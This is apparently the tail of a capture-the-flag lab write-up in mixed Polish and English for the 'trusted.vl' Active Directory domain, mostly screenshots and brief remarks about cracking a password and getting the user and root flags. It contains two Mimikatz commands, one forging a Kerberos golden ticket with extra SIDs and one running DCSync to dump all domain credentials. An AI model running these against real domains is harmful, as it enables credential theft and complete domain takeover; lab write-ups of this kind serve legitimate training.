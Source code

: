 ```
 kerberos::golden /user:Administrator /krbtgt:<haszyk>d /domain:lab.trusted.vl /sid:<SID> /sids:<SIDS> /ptt
```

![{1BF27525-577A-49D9-A2CD-07F338D94F5A}](https://github.com/user-attachments/assets/771ebb08-0d81-4d24-ae2a-f86978fe7ef7)

```
lsadump::dcsync /domain:trusted.vl /dc:trusteddc.trusted.vl /all
```

![final](https://github.com/user-attachments/assets/d4606e9a-32c1-45f8-ab69-8ba1ce846600)

![dwa](https://github.com/user-attachments/assets/82dd205c-e70e-4572-af29-4435c93d6650)

![{B80C6FD0-8935-4939-B58C-C900BD0DA471}](https://github.com/user-attachments/assets/fb020f5f-535f-4f56-a94b-9c01debf5338)

i tyle.

albo nie :O

![{AA7CAA66-0F8A-40D6-ABB7-3B53C8794EDD}](https://github.com/user-attachments/assets/70833120-0556-4e1f-9734-4ac423d242cb)

![{7D6B121E-4865-44A3-9D1A-DC1DFC4B63BF}](https://github.com/user-attachments/assets/b121aead-5498-4b02-85e5-e5c485dc437c)

password is cracable

![{B983D97B-4142-4DE8-873B-8F7EDC460B24}](https://github.com/user-attachments/assets/cfd0f067-e0a9-4025-9899-e4c2c6ddff0f)

I got root flag but I dont get user

![{2058AE00-7421-404C-BD6D-6FC5D733033A}](https://github.com/user-attachments/assets/b5a45b09-ffd9-41b1-9b1f-6217c1d7a6a9)

dobra mam usera


